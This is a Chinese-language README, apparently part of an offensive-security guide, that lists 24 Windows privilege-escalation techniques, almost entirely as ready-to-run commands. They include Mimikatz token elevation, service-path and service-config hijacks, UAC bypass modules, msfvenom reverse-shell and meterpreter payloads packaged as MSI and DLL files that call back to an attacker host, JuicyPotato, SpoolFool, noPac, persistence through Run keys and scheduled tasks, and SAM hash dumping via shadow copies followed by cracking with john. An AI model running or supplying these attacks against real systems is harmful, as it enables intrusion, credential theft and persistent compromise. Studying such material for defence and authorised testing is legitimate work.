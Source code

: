 ### Windows提权

1. 访问令牌

[mimika1](https://github.com/gentilkiwi/mimikatz/releases)

```bash
privilege::debug
token::list
token::elevate /id:[PID]
token::whoami
```

```bash
token::elevate
token::elevate /domainadmin
token::run /id:[PID] /process:"C:\Users\Administrator\Desktop\PSTools\PsExec64.exe -i -s cmd.exe"
```

2. 命名管道

[NamedPipeServer.cpp](提权/NamedPipeServer.cpp)

[NamedPipeClient.cpp](提权/NamedPipeClient.cpp)

```bash
x86_64-w64-mingw32-g++ -O2 NamedPipeServer.cpp -o NamedPipeServer.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
x86_64-w64-mingw32-g++ -O2 NamedPipeClient.cpp -o NamedPipeClient.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

```bash
NamedPipeServer.exe
NamedPipeClient.exe
((Get-ChildItem \\.\pipe\).name)[-1..-5]
```

3. DLL劫持

[第五章——DLL劫持](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Readme.md#dll%E5%8A%AB%E6%8C%81)

4. 不带引号的服务路径

```bash
mkdir "C:\Program Files\Ignite Data\Vuln Service"
sc create "vulns" binpath= "C:\Program Files\Ignite Data\Vuln Service\file.exe" start= auto
icacls "C:\Program Files\Ignite Data" /grant "ADMIN\Administrator":W
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v '\"'
```

```bash
C:\Program Files\Ignite Data\Vuln Service\file.exe
C:\Program Files\Ignite Data\ + Vuln.exe

net start vulns
run post/windows/manage/migrate
```

5. $PATH拦截

```bash
echo $env:PATH
Copy-Item -Path "C:\Windows\System32\cmd.exe" -Destination "C:\Program Files\Microsoft MPI\Bin\calc.exe"

calc = cmd.exe
```

6. 更改服务配置

[AccessChk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk)

```bash
accesschk.exe /accepteula -uwcqv <username> *
or
Get-WmiObject Win32_Service | Select-Object Name, StartName, PathName

sc qc vulns
sc config vulns binpath= "C:\msf.exe"
net start vulns
```

```bash
reg query HKLM\System\CurrentControlSet\Services /s /v imagepath
```

7. UAC

```bash
exploit/windows/local/bypassuac
exploit/windows/local/bypassuac_injection
exploit/windows/local/bypassuac_fodhelper
exploit/windows/local/bypassuac_eventvwr
exploit/windows/local/bypassuac_comhijack

post/multi/recon/local_exploit_suggester
```

8. 始终以提升的权限安装

```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP地址 LPORT=8888 -f msi -o Application.msi
msiexec /quiet /qn /i C:\Users\Administrator\Desktop\test\Application.msi
```

```bash
reg add "HKLM\Software\Policies\Microsoft\Windows\Installer" /v AlwaysInstallElevated /t REG_DWORD /d 1 /f
reg add "HKCU\Software\Policies\Microsoft\Windows\Installer" /v AlwaysInstallElevated /t REG_DWORD /d 1 /f

exploit/windows/local/always_install_elevated
```

9. Autoruns

常见的Autoruns位置

+ 注册表启动项：HKCU\Software\Microsoft\Windows\CurrentVersion\Run 或 HKLM\Software\Microsoft\Windows\CurrentVersion\Run。
+ 计划任务。
+ 启动文件夹：C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup。

```bash
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
accesschk64.exe /accepteula -wvu "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"
msf.exe > vmtoolsd.exe
```

10. Windows子系统

```bash
wsl --list --verbose
./ubuntun1604.exe config --default-user root
wsl whoami
wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'
```

```bash
C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows_79rhkp1fndgsc\LocalState\rootfs\
```

11. 凭据管理器

```bash
cmdkey /list
runas /savecred /user:ADMIN\Administrator "C:\msf.exe"
runas /savecred /user:WORKGROUP\Administrator "\\IP\SHARE\evil.exe"
```

12. 索取凭据

[steal_credentials.ps1](提权/steal_credentials.ps1)

[cred_server.py](提权/cred_server.py)

13. COM DLL劫持

[第五章——COM DLL劫持](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Readme.md#com-dll%E5%8A%AB%E6%8C%81)

14. RpcSs

```bash
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\RpcSs"

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\RpcSs\Parameters" /v ServiceDll /t REG_EXPAND_SZ /d "C:\Path\To\malicious.dll" /f
sc stop RpcSs
sc start RpcSs
```

[RpcSsImpersonator](https://github.com/sailay1996/RpcSsImpersonator)

15. Juicy Potato

[Juicy Potato](https://github.com/ohpe/juicy-potato)

[Juicy Potato构建后的](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts)

[CLSID列表](https://ohpe.it/juicy-potato/CLSID/)

```bash
JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
```

16. SpoolFool

[SpoolFool](https://github.com/ly4k/SpoolFool)

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f dll > msf.dll

SpoolFool.exe -dll msf.dll
```

17. sAMAccountName欺骗

```bash
git clone https://github.com/Ridter/noPac
python3 noPac.py 域/用户名:'密码' -dc-ip IP地址 -shell --impersonate administrator -use-ldap
```

18. 计划任务

```bash
schtasks /query /fo LIST /v
schtasks /create /tn "MaliciousTask" /tr "C:\msf.exe" /sc minute /mo 5 /ru SYSTEM
```

19. 登录自动执行

常见的注册表自动运行路径

+	HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
+	HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
+	HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce
+	HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce

```bash
Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "MaliciousApp" -Value "C:\Windows\Temp\malicious.exe"
```

20. DnsAdmins

```bash
Get-ADGroupMember -Identity "DnsAdmins"
dnscmd /config /serverlevelplugindll C:\Windows\Temp\malicious.dll
sc stop dns
sc start dns
```

21. 易受攻击的驱动程序

```bash
driverquery.exe /fo table /si
```

[loldrivers.io](https://www.loldrivers.io)

[DriverQuery](https://github.com/matterpreter/OffensiveCSharp/tree/master/DriverQuery)

```bash
PS C:\Users\Swissky> DriverQuery.exe --no-msft
[+] Enumerating driver services...
[+] Checking file signatures...
Citrix USB Filter Driver
    Service Name: ctxusbm
    Path: C:\Windows\system32\DRIVERS\ctxusbm.sys
    Version: 14.11.0.138
    Creation Time (UTC): 17/05/2018 01:20:50
    Cert Issuer: CN=Symantec Class 3 SHA256 Code Signing CA, OU=Symantec Trust Network, O=Symantec Corporation, C=US
    Signer: CN="Citrix Systems, Inc.", OU=XenApp(ClientSHA256), O="Citrix Systems, Inc.", L=Fort Lauderdale, S=Florida, C=US
<SNIP>
```

22. 滥用影子副本

```bash
vssadmin create shadow /for=C:
vssadmin list shadows
mklink /d C:\ShadowCopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\
copy C:\ShadowCopy\Windows\System32\config\SAM C:\Users\Administrator\Desktop\test\SAM
copy C:\ShadowCopy\Windows\System32\config\SYSTEM C:\Users\Administrator\Desktop\test\SYSTEM
```

```bash
pwdump SYSTEM SAM > /root/sam.txt
samdump2 SYSTEM SAM -o sam.txt
john -format=NT /root/sam.txt
```

23. DiagHub

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f dll > msf.dll
```

[diaghub](https://github.com/xct/diaghub)

```bash
C:\Windows\System32\ + msf.dll
diaghub.exe C:\ProgramData msf.dll
```

24. 特权文件删除

```bash
Get-ChildItem -Path "C:\Config.Msi"
```

[malicious.ps1](提权/malicious.ps1)

malicious.ps1 > C:\Config.Msi\example.rbs

```bash
msiexec /i "C:\malicious.msi" /qn
```
